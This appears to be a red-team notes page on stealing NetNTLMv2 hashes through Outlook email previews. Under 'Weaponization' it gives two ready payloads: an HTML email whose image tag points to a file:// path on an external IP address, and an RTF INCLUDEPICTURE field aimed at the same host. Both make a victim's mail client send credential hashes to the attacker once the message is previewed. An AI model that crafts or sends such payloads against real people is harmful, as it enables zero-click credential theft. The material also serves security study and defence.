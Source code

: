 # NetNTLMv2 hash stealing using Outlook

## Context

If the target system is not running the latest version of windows/office, it is possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any user interaction on the email - selecting an email for its preview to be rendered is enough for the hashes to be stolen.

## Weaponization

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-09-57.png)

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-07.png)

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-47.png)

## Execution

```text

```

![](../../.gitbook/assets/peek-2018-12-28-15-05.gif)

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}

